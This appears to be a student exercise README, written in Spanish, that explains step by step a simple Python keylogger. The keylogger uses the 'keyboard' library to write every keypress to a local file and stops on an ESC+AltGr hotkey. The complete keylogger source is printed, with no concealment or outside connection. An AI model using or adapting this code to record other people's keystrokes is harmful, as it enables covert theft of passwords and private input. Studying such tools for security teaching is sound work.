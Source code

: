 # SI_T5_P1

Importo la libreria necesario para el keylogger

 ```python
import keyboard
 ```

Estas lineas hacen que el archivo de texto se limpie cada vez que se ejecute el programa ya que el argumento w es sobreescritura siempre que el archivo ya exista, si no, creará el archivo

 ```python
with open("keylog.txt", "w") as log_file:
    log_file.write("")
 ```
    
Creo una funcion que se encargara de guardar las teclas pulsadas en el archivo de texto usando el argumento a que es para añadir al final del archivo en vez de sobreescribirlo

 ```python
def iniciar_keylogger(tecla):
    with open("keylog.txt", "a") as log_file:
        log_file.write(f"{tecla.name} ")
 ```

Con esta línea leo las teclas pulsadas

 ```python
keyboard.on_press(iniciar_keylogger)
 ```

Creo una función para parar el keylogger

 ```python
def parar_keylogger():
    print("Keylogger parado.")
    keyboard.unhook_all()
    exit()
 ```

Llamo a la funcion con una combinacion de teclas y para el keylogger

 ```python
keyboard.add_hotkey('esc+alt gr', parar_keylogger)
print("Keylogger funcionando. Pulsa ESC+AltGr para pararlo.")
 ```

Con esta ultima línea mantengo el programa en ejecución

 ```python
keyboard.wait()
 ```
